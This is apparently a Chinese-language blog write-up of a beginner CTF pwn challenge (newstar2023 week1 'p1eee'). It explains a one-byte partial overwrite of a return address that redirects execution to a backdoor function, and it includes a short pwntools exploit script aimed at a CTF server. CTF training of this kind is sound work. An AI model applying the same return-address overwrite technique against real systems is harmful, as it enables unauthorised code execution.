 ```yaml
---
title: newstar2023 week1 - p1eee
date: 2023/9/27 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用后门函数的地址重定向，成功溢出一个字节实现CTF题解。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序存在后门函数，因此尝试重定向回该函数  
但是只能溢出一个字节

已知在小端计算机上数据存储应是：  
假如main函数地址为0x55555555127b，那么地址从小到大存储为  
7b 12 55 55 55 55 00 00  
那么这一个字节可以覆盖7b

反汇编后可知，后门函数地址和read函数所在函数返回地址第一个字节一致，
因此只需要变化此字节即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27047)
sh.sendline(b'0'*40 + p8(0x6c)) # addr of backdoor
sh.interactive()
```

后门函数所在地址第一字节是0x64，但是若直接使用，会导致rbp & 0xf != 0，
所以跳转到LEA处即可

Done.
